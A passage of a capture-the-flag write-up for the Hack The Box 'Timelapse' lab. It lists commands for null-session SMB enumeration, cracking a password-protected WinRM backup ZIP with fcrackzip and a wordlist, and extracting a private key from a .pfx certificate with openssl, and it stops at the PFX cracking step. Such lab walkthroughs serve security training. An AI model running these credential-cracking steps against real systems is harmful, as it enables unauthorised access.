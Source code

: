 Check permissions with `smbmap`:

``` bash
smbmap -H 10.10.11.152 -u none
```

![SMBMap Null Session Permissions](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/smbmap_none.png)

---

### 2.3 Accessing the `Shares` Share

``` bash
smbclient //10.10.11.152/Shares -N
```

![SMBClient Shares Null Session](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/smbclient_shares_null.png)

- **HelpDesk** → Contains files referencing **LAPS** (Local Administrator Password Solution).
- **Dev** → Contains `winrm_backup.zip`.

---

## 3. Obtaining Foothold

### 3.1 Inspecting the Archive

Listing contents of `winrm_backup.zip` reveals a `.pfx` file, but the ZIP is password-protected.

---

### 3.2 Cracking the ZIP Password

``` bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

![fcrackzip Output](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/fcrackzip.png)

Password recovered → extract `.pfx` file.

---

### 3.3 Attempting PFX Extraction

``` bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
```

![OpenSSL PFX Extraction Attempt](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/openssl_pfx_file.png)

Requires another password.

---

### 3.4 Cracking the PFX Password
